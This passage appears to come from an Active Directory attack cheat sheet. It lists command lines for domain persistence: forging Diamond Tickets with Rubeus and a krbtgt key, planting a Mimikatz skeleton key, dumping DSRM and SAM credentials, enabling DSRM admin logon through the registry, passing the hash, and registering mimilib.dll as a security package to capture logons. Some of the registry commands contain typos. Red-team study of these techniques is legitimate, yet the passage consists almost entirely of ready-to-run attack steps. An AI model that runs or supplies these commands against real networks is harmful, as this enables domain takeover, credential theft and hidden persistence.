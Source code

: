 #### Check WMI Permission
```
Get-wmiobject -Class win32_operatingsystem -ComputerName <target>
```

## Diamond Ticket
- Is made by modifying the fields of a legitimate TGT that was issued by a DC.
- Cannot be generated offline since it will connect to the DC

```
.\Rubeus.exe diamond /tgtdeleg /ticketuser:<USER> /ticketuserid:<RID OF USER> /groups:512 /krbkey:<KRBTGT AES KEY> /nowrap
.\Rubeus.exe diamond /tgtdeleg /ticketuser:0xjs /ticketuserid:1106 /groups:512 /krbkey:51d7f328ade26e9f785fd7eee191265ebc87c01a4790a7f38fb52e06563d /nowrap
```

## Skeleton key
- https://pentestlab.blog/2018/04/10/skeleton-key/

#### Create the skeleton key - Requires DA
```
Invoke-MimiKatz -Command '"privilege::debug" "misc::skeleton"' -Computername <TARGET>
```

### Authenticate as any user with password ```mimikatz```

## DSRM
#### Dump DSRM password - dumps local users
- look for the local administrator password
```
Invoke-Mimikatz -Command '"token::elevate” “lsadump::sam"' -Computername <TARGET>
```

#### Change login behavior for the local admin on the DC
```
New-ItemProperty “HKLM:\System\CurrentControlSet\Control\Lsa\” -Name “DsrmAdminLogonBehavior” -Value 2 -PropertyType DWORD
```

#### Overpass the hash local administrator
```
Invoke-Mimikatz -Command '"sekurlsa::pth /domain:<DC NAME> /user:Administrator /ntlm:<HASH> /run:powershell.exe"' 
```

#### Use PSremoting with NTLM authentication
```
Enter-PSSession -ComputerName <COMPUTERNAME> -Authentication Negotiate 
```

## Custom SSP - Track logons
#### Mimilib.dll
- Drop mimilib.dll to system32 and add mimilib to HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\Security Packages
```
$packages = Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' | select -ExpandProperty 'Security Packages'
$packages += "mimilib"
SetItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' -Value $packages
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\ -Name 'Security Packages' Value $packages
```
